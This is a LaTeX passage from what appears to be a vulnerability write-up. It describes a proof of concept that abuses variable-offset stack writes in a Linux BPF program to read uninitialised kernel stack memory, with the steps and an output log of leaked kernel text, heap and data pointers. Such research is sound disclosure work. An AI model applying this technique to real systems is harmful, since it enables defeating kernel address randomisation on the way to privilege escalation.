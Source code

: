 \section{Proof of Concept (PoC)}

\subsection{Milestone 1: Out-of-Bounds Stack Read}

\textbf{Objective}
Trigger the OOB stack read by loading a BPF program that uses variable-offset stack writes, then read uninitialized stack memory to leak kernel pointers.

\textbf{Approach}
The BPF program:
\begin{enumerate}
    \item Creates a variable offset \texttt{[-72, -16]} using \texttt{ktime\_get\_ns() \& 7 << 3}
    \item Writes a marker value at the variable offset on the stack
    \item Reads from fixed offsets \texttt{fp-24} through \texttt{fp-80} (slots marked as \texttt{STACK\_MISC} by the var-off write but not actually written at runtime)
    \item Stores leaked values into a BPF array map for userspace retrieval
\end{enumerate}

\textbf{Results}

\begin{lstlisting}[style=log,caption={Milestone 1 output}]
leaked[0] (fp -24) = 0xffffffff8144b19d  <- KERNEL PTR! (text)
leaked[1] (fp -32) = 0x0000000041414141  (marker)
leaked[2] (fp -40) = 0xffff8880056afb80  <- KERNEL PTR! (heap)
leaked[3] (fp -48) = 0xffff8880056afb80  <- KERNEL PTR! (heap)
leaked[4] (fp -56) = 0xffff8880056afb80  <- KERNEL PTR! (heap)
leaked[5] (fp -64) = 0xffff8880046cf900  <- KERNEL PTR! (heap)
leaked[6] (fp -72) = 0xffffffff824c94e0  <- KERNEL PTR! (data)
leaked[7] (fp -80) = 0x0000000000000000  (zero)
\end{lstlisting}

The leaked pointers were identified via \texttt{/proc/kallsyms}:
\begin{itemize}
    \item \texttt{0xffffffff8144b19d} $\rightarrow$ \texttt{security\_sock\_rcv\_skb+0x2d} (kernel text)
    \item \texttt{0xffffffff824c94e0} $\rightarrow$ \texttt{selinux\_hooks+0x1540} (kernel data)
    \item Heap pointers in \texttt{0xffff888*} range $\rightarrow$ kernel heap objects (\texttt{sock}/\texttt{sk\_buff})
\end{itemize}


